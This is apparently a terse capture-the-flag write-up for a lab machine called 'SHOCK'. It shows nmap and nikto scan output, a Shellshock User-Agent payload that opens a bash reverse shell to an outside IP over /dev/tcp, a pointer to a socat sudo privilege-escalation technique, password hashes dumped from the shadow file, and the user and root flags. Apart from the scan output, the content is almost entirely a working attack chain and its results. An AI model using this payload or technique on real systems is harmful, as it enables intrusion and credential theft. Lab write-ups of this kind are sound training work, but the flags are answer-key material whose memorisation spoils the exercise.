




# SHOCK



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:ee:09:94:d5:4b:4a:d9:3b:95:3a:d6:63:e7:98:6f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFKAzQlwel/YupBxHiUV+I8W5n0N8iICjRLMooIzfIU1APArOWV7J9xdQ5aIbFzEEo9veZ4LvsIZeBg9n34+eP0HuvG1UpmK+kiFYpf0M08ldtXM7nHzgcJBbw4V0tc+rgyWMw13fX6BtULOXknVWr8WTT1qeQDgdo5HTwTVIHrJmc78AAKRIeVHNzspK0Keb0L5duKgsvNqSbJpRWoMoU88lmupPqDdpZmC1ff7YVOrPJhDiwkrr2rnwnwKhXJPrfVJUJq5N+lGYmXkf4VlxNyPzslcVooZGdHlbThLMGTY0Es4Lzs1z/gSGHXulhTCtjdSPYIYXRi5fzy9EIRX0t
|   256 b9:f8:52:aa:62:02:af:6c:09:ca:dc:3e:7b:b3:94:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrPsISLprTRHELKrIz2mrjSwKdGC7AAHNzdMov8ZXr8mkn12CFcItIpAmJO51IohN+STGOtSvFUYEEH8CaEQ9E=
|   256 53:5d:98:f7:61:e0:57:df:38:96:f9:be:59:77:6c:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKQEkZKIxAZBgPNbxtQo8pJDqRfdqsx4O6cZhoiCPIGC
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Steak House Shock
```

## PORT 80 ENUMERATION


### NIKTO

```text
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1128, size: 59e40c3babdf0, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-03-12 20:44:35 (GMT-5) (411 seconds)
```

## EXPLOIT SHELLSHOCK

```text
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.0.63/2332 0>&1'
```





## PRIVESC \(2 WAYS\)

* [https://gtfobins.github.io/gtfobins/socat/\#sudo](https://gtfobins.github.io/gtfobins/socat/#sudo)


OR




## CREDS

```text
root:$6$MaMKK.eA$rEco8rH5lbqN8boI3g9MW2vqXBqnRBn1WfIr/B5Aa3ZpYkQHuZHMXm7UzpHv4FmwJn9mvrlX/wWEOd5FShOnI1:18302:0:99999:7:::
scott:$6$QtkZcGUv$0/83BtM9pJyuBv6M6AHqr8vaZrtT40hVrmNRmtRT4Yaz1JKdm6RbCtsj9g5gQjVmkHA2lcTq0XeRqeUNbc7Ar/:18302:0:99999:7:::
```

## FLAGS

### USER

```text
5198cf7dbec41da68b367d5681f63996
```

### ROOT

```text
669fe3374599b663a0da972ecbf7e2cb
```


